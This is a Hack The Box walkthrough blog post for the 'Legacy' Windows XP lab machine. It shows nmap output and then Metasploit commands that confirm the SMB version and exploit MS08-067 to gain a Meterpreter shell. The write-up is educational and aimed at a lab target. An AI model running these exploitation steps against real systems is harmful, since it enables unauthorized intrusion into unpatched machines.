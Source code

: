 ```yaml
---
title: Legacy
date: 2020-05-04 19:16:00
description: HTB Walkthrough
featured_image: '/images/blog/legacy/legacy.jpg'
tags: ['Hack The Box']
---
```


Legacy is also one of the first machines released on Hack The Box (HTB) and aimed for beginners. It is a Windows box that is vulnerable to SMB bugs and I'll be using Metasploit to exploit them.

## Hack The Box
 
* Operating System: Windows
* Difficulty: Easy


## Enumeration

Let's start with enumeration by using nmap. As always, I like to use:

<img src="/images/blog/legacy/ipaddress.jpg" alt="nmap scan">

	PORT     STATE  SERVICE       VERSION
	139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
	445/tcp  open   microsoft-ds  Windows XP microsoft-ds
	3389/tcp closed ms-wbt-server
	Device type: general purpose|specialized
	Running (JUST GUESSING): Microsoft Windows XP|2003|2000|2008 (94%), General Dynamics embedded (87%)
	OS CPE: cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_2000::sp4 cpe:/o:microsoft:windows_server_2008::sp2
	Aggressive OS guesses: Microsoft Windows XP SP3 (94%), Microsoft Windows Server 2003 SP1 or SP2 (92%), Microsoft Windows XP (92%), Microsoft Windows Server 2003 SP2 (91%), Microsoft Windows XP SP2 or Windows Server 2003 (90%), Microsoft Windows 2000 SP4 (90%), Microsoft Windows XP SP2 or SP3 (90%), Microsoft Windows 2000 SP4 or Windows XP SP2 or SP3 (90%), Microsoft Windows 2003 SP2 (89%), Microsoft Windows XP SP2 (89%)
	No exact OS matches for host (test conditions non-ideal).
	Network Distance: 2 hops
	Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

	Host script results:
	|_clock-skew: mean: 5d00h30m01s, deviation: 2h07m16s, median: 4d23h00m01s
	|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:34:e8 (VMware)
	| smb-os-discovery: 
	|   OS: Windows XP (Windows 2000 LAN Manager)
	|   OS CPE: cpe:/o:microsoft:windows_xp::-
	|   Computer name: legacy
	|   NetBIOS computer name: LEGACY\x00
	|   Workgroup: HTB\x00
	|_  System time: 2020-05-24T02:40:58+03:00
	| smb-security-mode: 
	|   account_used: <blank>
	|   authentication_level: user
	|   challenge_response: supported
	|_  message_signing: disabled (dangerous, but default)
	|_smb2-time: Protocol negotiation failed (SMB2)


It looks like we have port 139 and 445 open, and based on the nmap scan, we might have also found the SMB OS, *Windows XP*. Before we exploit this box, let's verify that the OS is the right one by using one of Metasploit's auxiliary modules.

### SMB Information

To open up Meatsploit whilst in the command line interface, type in:

`msfconsole`

Once Metasploit opens, we can use Metasploit's auxiliary module, smb_version. There are a lot of auxiliary modules, so if you're not sure which one to use, we can search for it by typing in Metasploit: 

`search smb_version`

<img src="/images/blog/legacy/smbversion.jpg" alt="smb version">

From the search results, we can see that there is an auxiliary module called smb_version. To use it, we can type in Metasploit:

`use auxiliary/scanner/smb/smb_version`

As always, I like to see what options I have when I use a Metasploit module by typing in `options`. After taking a look at the options, I set the following: 

* `rhosts`: The IP address of the Legacy box.
* `target`: To see if there are any targets to set--in this case, there is none.
* `run`: To run the auxiliary module.

<img src="/images/blog/legacy/auxiliary.jpg" alt="auxiliary scan">

Perfect! Based on the results above, the box is currently running *Windows XP SP3*. Now that we have confirmed the OS that the SMB is on, let's look for any existing exploits.

In the last box (Lame), we used Metasploit's search feature to find an exploit. This time to make it interesting, we can use Google search. I normally like to look for results from Rapid7 (which is the same as Metasploit) or Exploit-db.

After searching <i>Windows XP SP3 exploit</i> in Google search, I came across this one from Rapid 7:

<a href="https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi">MS08-067 Microsoft Server Service Relative Path Stack Corruption</a>

Here's what it says on the exploit's description:

<i>This module exploits a parsing flaw in the path canonicalization code of NetAPI32.dll through the Server Service. This module is capable of bypassing NX on some operating systems/service packs.</i>

This exploit looks promising, so let's try using it.

## Exploitation

To use the exploit that we found, we can follow the instructions found in the above link and type in:

`use exploit/windows/smb/ms08_067_netapi`

Again, let's take a look at our options by typing in `options`. 


<img src="/images/blog/legacy/exploit.jpg" alt="preparing exploit">

In this case, I set the rhost to the IP address of the box, 10.10.10.4, by typing in:

`set rhosts 10.10.10.4`

And that's it, let's try running the exploit!

<img src="/images/blog/legacy/runexploit.jpg" alt="exploit results">

It worked! We now have a Meterpreter session. Meaning, we have access to the box. We can type in:


* `getuid`: To see what access level we have.
* `pwd`: To check which directory we're currently in.
 

Since we have root access, we can type in `shell` to that we have access to the command line and locate the root.txt and user.txt file.

And that's it! We've now completed the Legacy box.

## Conclusion

This goes to show that once you find a port open, in this case, SMB, always enumerate to find out what OS version the service is running. Once you know the version, it'll be easier to find out what the system is vulnerable to and where to look when it comes to finding exploits. 